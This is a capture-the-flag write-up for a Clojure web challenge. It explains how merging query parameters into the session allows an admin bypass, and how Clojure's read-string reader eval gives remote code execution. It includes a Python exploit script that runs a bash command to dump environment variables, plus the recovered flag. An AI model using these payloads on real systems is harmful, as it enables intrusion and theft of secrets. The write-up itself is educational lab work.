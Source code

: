 # 0xl4ugh CTF

## manifesto

> This is an easy challenge, except... it's written in Clojure. Can you find your way through all of these parentheses and come out victorious? - @aelmo

## Approach

Noting the code `(assoc :session (merge {"prefer" "light"} session query-params)))`, this means `query-params` will be merged into `session`, potentially allowing permission checks to be bypassed via a URL like `/?username=admin`.

The next step is the exploitation of the `read-string` function. The `read-string` function can be used to execute arbitrary code, you can try the payload `#=(* 7 7)` and you will see the result `49`. However, when i attempt `(clojure.java.shell/sh "...")`, it always shows `Something went wrong...`. So after some googling, I find the payload in [this writeup](https://b.poc.fun/faust-ctf-doedel-writeup/) works. My final solution is as follows:

```python
import requests

with requests.session() as s:
    url = "https://a5f6bcb2307b2e9bcf64ffd9a382f720.chal.ctf.ae"
    s.get(url + "/?username=admin&redirect=/gists")
    s.post(url + "/gists", data={
        # "gist": '#=(* 7 7)'
        "gist": '#=(eval\
            (.\
                (java.lang.Runtime/getRuntime)\
                exec\
                (into-array ["bash" "-c" "export > ./resources/public/static/1.txt"])\
            )\
        )',
    })
    resp = s.get(url + "/static/1.txt")
    print(resp.text)
```

This can be used to execute arbitrary code. But for this challenge, we only need to read the environment variable `FLAG`. The official writeup uses payload `#=(java.lang.System/getenv "FLAG")`, which is more concise.

## Flag

```
flag{jwHvR1Lv50TzsftMH8Bv9cJN7Jg6jbIC}
```
